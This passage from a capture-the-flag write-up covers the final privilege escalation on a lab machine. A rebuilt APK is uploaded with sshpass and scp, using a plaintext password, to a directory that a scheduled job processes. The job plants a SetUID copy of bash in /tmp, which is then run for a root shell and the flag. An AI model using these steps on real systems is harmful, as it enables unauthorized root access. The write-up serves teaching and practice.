 This will copy `bash` into `/tmp` and make it SetUID to run as root.

Build it back up:

```

oxdf@hacky$ java -jar apktool_2.6.1.jar b -f decomp/ -o modified.apk
I: Using Apktool 2.6.1
I: Smaling smali folder into classes.dex...
I: Building resources...
I: Building apk file...
I: Copying unknown files/dir...
I: Built apk...

```

#### Upload

I’ll upload this to Catch using `scp`, right into the dropbox directory:

```

oxdf@hacky$ sshpass -p 's2#4Fg0_%3!' scp modified.apk will@10.10.11.150:/opt/mdm/apk_bin/

```

#### Shell

Once a minute rolls over, I’ll check, and there’s a SetUID `0xdf` file in `/tmp`:

```

will@catch:/opt/mdm$ ls -l /tmp/0xdf
-rwsrwxrwx 1 root root 1183448 Jun 29 20:16 /tmp/0xdf

```

Running it (with `-p` to not drop privs) gives a shell with euid of root:

```

will@catch:/opt/mdm$ /tmp/0xdf -p
0xdf-5.0# id
uid=1000(will) gid=1000(will) euid=0(root) groups=1000(will)

```

That’s enough to read the flag:

```

0xdf-5.0# cd /root
0xdf-5.0# cat root.txt
ac5a5ae9************************

```